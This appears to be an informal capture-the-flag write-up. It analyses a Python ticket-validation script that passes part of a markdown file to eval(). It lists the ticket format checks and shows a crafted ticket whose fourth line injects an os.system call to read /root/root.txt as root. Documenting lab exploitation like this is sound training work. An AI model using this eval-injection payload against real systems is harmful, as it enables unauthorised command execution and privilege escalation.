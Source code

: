 ```
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
Okey after analysis this file this file check about ticket is valid or not 

**important notes about this python code :**

1-ticket file should have `md` extention. 

2- **eval()**-->> way to excute malicious code but first we should pass filters.

on exploring this server i found folder that have sample of **invalid** tickets in `/opt/skytrain_inc/`

so i downloaded this code and created test.md file to check the valid format of ticket.

**valid format steps**

1-first line  starts with `# Skytrain Inc`.

2-second line starts with`## Ticket to`.

3-third line starts with `__Ticket Code:__`

4-`Line 29` it checks if the fourth line is in or not ,if the line exist should starts with `**` and  the script removes the `**`

so in the forth line we can excute code so upload sample of `test.md` in valid format on the server and tried to run the code 

and try to  read **/root/root.txt**
```
# Skytrain Inc
## Ticket to
__Ticket Code:__
**180+ 30 == 210 and __import__('os').system('cat /root/root.txt') 

```
**Finally PWN!!** 


![Screenshot_20211012_222418](https://user-images.githubusercontent.com/36403473/142423714-9e6e8cc0-088c-4171-943f-1ed4f87de684.png)



